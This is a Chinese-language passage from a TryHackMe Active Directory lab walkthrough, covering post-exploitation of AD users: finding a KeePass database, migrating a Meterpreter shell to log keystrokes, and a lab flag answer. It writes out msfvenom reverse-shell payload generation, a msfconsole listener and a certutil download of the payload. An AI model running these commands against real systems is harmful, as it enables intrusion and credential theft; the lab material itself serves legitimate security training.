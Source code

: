 THMSERVER1 上 Administrator.ZA 用户的桌面目录中存储的标志的值是多少 (flag3.txt)？

```plaintext
THM{Printing.Some.Shellz}
```

:::

## Exploiting AD Users - 利用 AD 用户

到目前为止，我们在利用方面已经取得了相当大的进展。我们对工作站和服务器拥有完全的管理员访问权限。基本上，我们可以对几乎任何一台一级和二级系统进行后期利用。但我们还想更进一步。接下来的任务也可以看作是后期利用，但在我们仍在执行利用以达到执行目标位置时，通常是一个极好的选择。现在是时候针对 AD 用户展开攻击了。

### 用户和用户行为

> 未来的工厂只会有两名员工：一个人和一只狗。人的存在是为了喂狗，而狗则是为了在人试图触碰任何东西时咬人。- 沃伦 · 本尼斯
>
> The factory of the future will only have two employees. A human and a dog. The human will be there to feed the dog. The dog will be there to bite the human if they try to touch something. - Warren Bennis

用户往往是安全链条中最薄弱的环节。想想弱密码和不良习惯，比如授予过于宽松的权限。忽视这个攻击面是愚昧和无效的。虽然建立合适的 AD 用户枚举和攻击方法是有益的，但在这个任务中，我们将专注于两个要素：

- 凭证管理 - 用户如何存储他们的凭证。在 AD 中，这非常重要，因为用户可能有多套凭证，记住它们可能很麻烦。
- 键盘记录 - 在利用过程中，我们经常需要了解普通用户如何与系统交互。与屏幕截图一起，键盘记录可以是从攻击者角度获取这种理解的有用工具。

### 寻找凭证

现在我们已经入侵了 THMSERVER1，或许应该四处看看是否有任何有用的信息。查看用户目录，看看是否有一些有用的内容。

你的枚举工作应该会导致一个. kdbx 文件。快速搜索一下可以确认我们的怀疑，这个文件确实非常有价值！我们可以使用 Meterpreter 的下载命令来恢复这个文件。

这个文件似乎是一个凭证数据库。然而，问题在于数据库被密码加密了。我们可以尝试破解密码，但通常使用凭证数据库的人会确保初始密码是安全的。我们也许更有成功的机会是看看用户是如何与这个数据库进行交互的。

### SYSTEM 有时特权太高

Meterpreter 具有内置的键盘记录器。这对提取用户的击键信息很有用。但是，我们不能随便启动这个键盘记录器然后期待最好的结果，因为我们的 Shell 当前是在 SYSTEM 上下文中运行的。SYSTEM 不会输入任何按键，所以这对我们没有帮助。为了捕获正确用户的凭证，我们需要确保我们的 Shell 是以该用户的上下文运行的。

幸运的是，Meterpreter 提供了迁移功能，因为我们是以 SYSTEM 身份运行的，我们应该能够迁移到任何进程。你在 THMSERVER1 上具有远程代码执行权限，利用这个来获取一个 Meterpreter Shell。如果你需要关于如何使用 Meterpreter 和 Metasploit 的复习，这里有一个关于它使用的模块。不过，为了快速了解，你可以使用以下命令生成一个 PowerShell Meterpreter 载荷：

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

接下来，你也可以使用以下命令在 msfconsole 中创建相关的监听器：

```shell
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT'listening port'; exploit"
```

你可以使用 Python 的 Web 服务器来托管你的 Meterpreter Shell，然后使用类似以下的方式进行复制：

```shell
certutil.exe -urlcache -split -f http:///shell.ps1
```
